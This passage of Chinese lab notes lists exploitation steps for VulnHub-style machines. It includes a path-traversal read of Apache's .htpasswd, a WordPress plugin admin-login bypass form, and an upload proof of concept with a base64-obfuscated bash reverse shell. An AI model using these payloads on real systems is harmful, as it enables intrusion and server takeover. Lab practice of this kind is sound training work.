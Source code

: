 #### 二十九、ProFTD 1.3.5（symfonos-2）（JOY）

![Snipaste_2020-02-10_15-01-36.png](https://i.loli.net/2020/02/10/ohQcqr7WldSpjRA.png)

![Snipaste_2020-02-10_15-02-34.png](https://i.loli.net/2020/02/10/yeQtkwTKSfjan8V.png)

#### 三十、LibreNMS

![Snipaste_2020-02-10_15-06-20.png](https://i.loli.net/2020/02/10/quYiMkJtA2BVdyp.png)

![Snipaste_2020-02-10_15-06-41.png](https://i.loli.net/2020/02/10/tY6Pnq4HvmWLMJF.png)

#### 三十一、basic认证（AI-2）

```
../../../../../../etc/apache2/.htpasswd
```

#### 三十二、wordpress	Ticket System 7.1.3 Privilege Escalation（Ha-hardy）

```
<form method="post" action="http://192.168.56.114/wordpress/wp-admin/admin-ajax.php">
    Username: <input type="text" name="username" value="administrator">
    <input type="hidden" name="email" value="sth">
    <input type="hidden" name="action" value="loginGuestFacebook">
    <input type="submit" value="Login">
</form>
```

#### 三十三、wordpress	slideshowgallery（Ha-hardy）

![Snipaste_2020-02-10_15-23-29.png](https://i.loli.net/2020/02/10/OftA2T6IVGlqxsM.png)

#### 三十四、SUID权限可执行文件wget（HA-hardy）

![Snipaste_2020-02-10_15-24-36.png](https://i.loli.net/2020/02/10/QnOVe48x3AGWsFa.png)

#### 三十五、apk逆向(serial2)

jadx

#### 三十六、wordpress	Insert or Embed Articulate Content into WordPress Remote Code

```
echo "<?php phpinfo();system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMS8xMjM0IDA+JjEK|base64 -d|bash'); ?>" > index.php
echo "<html>hello</html>" > index.html
zip poc.zip index.html index.php
```

#### 三十七、SUID权限可执行文件make（dusk）
